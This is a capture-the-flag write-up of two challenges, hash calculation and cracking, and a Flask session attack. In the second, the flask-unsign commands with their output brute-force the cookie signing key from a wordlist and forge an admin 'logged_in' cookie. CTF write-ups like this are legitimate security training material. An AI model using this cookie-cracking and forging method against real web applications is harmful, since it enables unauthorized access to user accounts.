


# Hashes



we have to follow the instructions

the md5 sum for "CSCTF" is `542dc648d5c62e61bd1f30a63b1c6dbe`.
we put that into `ctf.txt`.

to calculate the sha256 hash of the file we use `sha256`. we get `3c2d667f257c3d1ddeba049fe1f723cec9a0de6c438d744285d24cbd81a897d1`.

to crack the hash we can use an online database that checks the hash if it has been cracked previously. we get `#winner`. the sha1 hash of this is `22124982b891828006f9d759f32a8b01352c70df`. we put that on a new line inside `ctf.txt` and get 	`7602e0234d40319989e8c1c14349403b1fba145ee081322b04115e85b7197db1fa0e318dd9715ce7fa5518e8f9bc4af2e2a4b399fb6604292590734cbbce4ab6`.

easy, right?


# Signed Flask



based on the description we have to crack the `session` cookie found on the site such that we cand sign with the same password a `{'logged_in': True}` cookie to feed back into the browser. we do as follows:

```
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZgjXBQ.xY8gCZc84swJmK7IadguxeQuWYo" --no-literal-eval
[*] Session decodes to: {'logged_in': False}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 2171264 attemptscas
b'98765432123456789'
```


the password is `98765432123456789`. we can then sign a new cookie with this password:

```
flask-unsign --sign --cookie "{'logged_in': True}" --secret "98765432123456789" --no-literal-eval
eyJsb2dnZWRfaW4iOnRydWV9.ZgvywQ.dJ-IPPotPxE6_cd1bYjYJkZjGW0
```

replacing this in the browser we have broke in :)

but to remember all we had to do was to get the `SECRET_KEY` and that is `98765432123456789`. 

check out the next section [WEB](./WEB)